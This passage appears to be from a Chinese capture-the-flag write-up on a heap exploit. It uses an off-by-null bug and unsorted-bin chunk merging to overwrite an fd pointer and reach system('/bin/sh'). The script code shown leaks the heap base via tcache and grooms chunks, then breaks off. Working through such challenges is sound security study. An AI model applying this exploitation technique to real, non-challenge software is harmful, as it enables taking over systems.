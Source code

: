 ### 思路

利用off by null在unsorted bin中实现chunk的合并，然后去修改fd指针，打system('/bin/sh')

### 详细流程

先在tcachebins 中泄露堆地址

```plain
add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)
r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
```

[![](assets/1701606615-cf51570577fefa0c19e9768d2c95e46c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115212929-0109f9a4-83bb-1.png)  
然后重置一下idx，然后布置一下chunk(填满tcachebins，然后留出两个chunk用来合并，最后free 的chunk用来泄露libc)

```plain
delete(1)
for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
```
